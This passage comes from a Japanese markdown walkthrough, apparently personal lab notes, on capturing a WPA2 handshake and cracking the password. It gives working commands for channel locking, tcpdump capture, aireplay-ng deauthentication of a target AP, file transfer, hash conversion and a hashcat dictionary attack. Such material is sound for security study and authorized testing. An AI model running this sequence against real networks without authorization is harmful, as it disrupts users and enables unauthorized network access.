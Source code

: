      ![alt text](../assets/images/Screenshot_2025-02-06_172042.png)
   - wlan1mon をターゲットAPのチャネルに固定:
     ```sh
     iwconfig wlan1mon channel 11
     ```
   - `tcpdump` を使用してパケットをキャプチャ: -w は保存先でもしusbに保存したい場合: `tcpdump -i wlan1mon -w /sd/handshake.pcap` 
     ```sh
     tcpdump -i wlan1mon -w /root/handshake.pcap
     ```
   - UIでDeauth実行: コマンドで実行する場合: `aireplay-ng --deauth 10 -a <ターゲットAPのMACアドレス> wlan1mon`
   - Cnrl + C でパケットキャプチャを停止。
     ![alt text](../assets/images/Screenshot_2025-02-06_172921.png)
   - 取得したデータをLaptopに転送: `scp root@172.16.42.1:/root/handshake.pcap C:\Users\<YourUsername>\Desktop\`
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析
   - Wiresharkでデータを開いてキャプチャをフィルタリングして WPA ハンドシェイクパケットを探す: `eapol`でフィルター
     ![alt text](../assets/images/Screenshot_2025-02-06_175138.png)
   - WPA2ハンドシェイクで、パスワードを解析するために必要なデータ。File → Save As → test.cap として保存
   - Hashcatを利用: 3min
   - .pcap ファイル ⇢ .hccapxファイルへ: `hcxpcapngtool -o handshake.hccapx capture.pcap`
   - パスワードクラック: `hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt`